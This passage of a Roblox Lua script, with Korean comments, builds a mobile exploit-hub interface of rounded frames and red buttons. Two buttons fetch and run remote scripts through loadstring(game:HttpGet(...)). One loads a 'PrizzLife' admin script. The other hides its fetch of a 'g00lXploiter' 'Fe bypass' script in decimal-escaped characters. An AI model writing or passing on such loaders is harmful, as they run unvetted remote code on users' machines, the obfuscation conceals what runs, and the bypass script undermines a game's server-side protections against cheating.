 -- TitleBar 꼭짓점 둥글게 만들기
local titleCorner = Instance.new("UICorner")
titleCorner.CornerRadius = UDim.new(0, 16)
titleCorner.Parent = titleBar

-- 허브 UI 내용 예제 (텍스트)
local textLabel = Instance.new("TextLabel")
textLabel.Size = UDim2.new(1, 0, 1, -30)
textLabel.Position = UDim2.new(0, 0, 0, 30)
textLabel.Text = "모바일 허브 UI"
textLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
textLabel.BackgroundTransparency = 1
textLabel.Parent = mainFrame

-- 버튼 생성 함수
local function createButton(text, position)
    local button = Instance.new("TextButton")
    button.Size = UDim2.new(0.4, 0, 0, 30)  -- 크기 줄임
    button.Position = position
    button.Text = text
    button.TextColor3 = Color3.fromRGB(0, 0, 0)  -- 검정색 텍스트
    button.TextSize = 18  -- 🔹 텍스트 크기 증가
    button.BackgroundColor3 = Color3.fromRGB(255, 0, 0)  -- 빨간 버튼
    button.Parent = mainFrame
    
    -- 버튼 둥글게 만들기
    local buttonCorner = Instance.new("UICorner")
    buttonCorner.CornerRadius = UDim.new(0, 10)
    buttonCorner.Parent = button

    return button
end

-- 🔹 윗부분 버튼 (연한 부분 아래로 내리기, 겹치지 않도록 조정)
local topLeftButton = createButton("위 왼쪽", UDim2.new(0.05, 0, 0.2, 0))   
local topRightButton = createButton("위 오른쪽", UDim2.new(0.55, 0, 0.2, 0)) 

-- 🔹 아래 부분 버튼 (크기 줄이고 정렬)
local bottomLeftButton = createButton("아래 왼쪽", UDim2.new(0.05, 0, 0.75, 0))
local bottomRightButton = createButton("아래 오른쪽", UDim2.new(0.55, 0, 0.75, 0))

-- "프라어드민" 버튼 클릭 시 특정 스크립트 실행
local pradminButton = createButton("프라어드민", UDim2.new(0.35, 0, 0.45, 0)) -- 버튼 생성 위치 조정
pradminButton.MouseButton1Click:Connect(function()
    loadstring(game:HttpGet('https://raw.githubusercontent.com/elliexmln/PrizzLife/main/pladmin.lua'))()
end)

-- "프라존도우" 버튼 클릭 시 특정 스크립트 실행
local prazonButton = createButton("프라존도우", UDim2.new(0.35, 0, 0.55, 0)) -- 버튼 생성 위치 조정
prazonButton.MouseButton1Click:Connect(function()
    loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\103\48\48\108\88\112\108\111\105\116\101\114\47\103\48\48\108\88\112\108\111\105\116\101\114\47\109\97\105\110\47\70\101\37\50\48\98\121\112\97\115\115\34\44\32\116\114\117\101\41\41\40\41\10")()
end)
